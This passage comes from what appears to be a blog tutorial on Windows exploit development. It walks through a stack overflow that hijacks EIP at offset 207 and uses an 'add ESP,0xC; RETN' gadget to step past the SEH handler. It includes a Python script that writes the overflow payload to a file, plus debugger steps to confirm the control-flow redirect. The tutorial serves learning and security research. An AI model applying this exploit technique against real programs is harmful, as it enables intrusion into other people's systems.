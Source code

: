 {:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_1/windows_exp8.png)
{: refdef}

Using the following command, we are able to identify the offset of our EIP which is 207. But how about the SEH exception? that would be not much of problem, why? if you look closely the SEH is located 4 bytes(211) after the EIP so all we need to do is to find a gadget that jump to the next 8 or more bytes in the stack so we will no get caught up in the SEH exception. 

There are a lot of gadgets inside the program that can be used to satisfy the condition but because I'm lazy, I'm just going to used the one that suggested by the original author. It's located at 0x10013e29 and it points to instructions:

{% highlight nasm %}

add ESP,0xC
RETN

{% endhighlight %}

this instructions basically will increment the ESP value to 12 bytes, thus, this will jump the nSEH and SEH and make the execution return to the stack. Update the source code:

{% highlight py %}
import struct

padding = "A" * 207
eip = struct.pack("<I",0x10013e29)
junk = "B" * 12
junk += "C" * 1000

payload = padding + eip + junk

with open("payload.txt","wb") as file:
	file.write(payload)
	file.close()

print "[!] payload.txt ready to uploaded"

{% endhighlight %}


Put breakpoint at 0x10013e29, so we know that the exploit is working. I suggest to use hardware breakpont in immunity debugger so you don't have to put breakpoint multiple times. After that you can upload the new payload and pass the exception, at the end you will be end up at your breakpoint like below:

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_1/windows_exp9.png)
{: refdef}

{:refdef: style="text-align: center;"}
![PLIST-FILE_3]({{site.url}}/blog/img/windows_exploit_dev_1/windows_exp10.png)
{: refdef}

Continue the execution by click "step over" 2 times this will make the program jump next 10 bytes and return the execution to the stack, cool!


[breaking-link]: https://court-of-testing-analysing.blogspot.com/2019/11/breaking-code-exploit-development.html
[ie-link]: https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
[exploitdb-link]: https://www.exploit-db.com/exploits/46283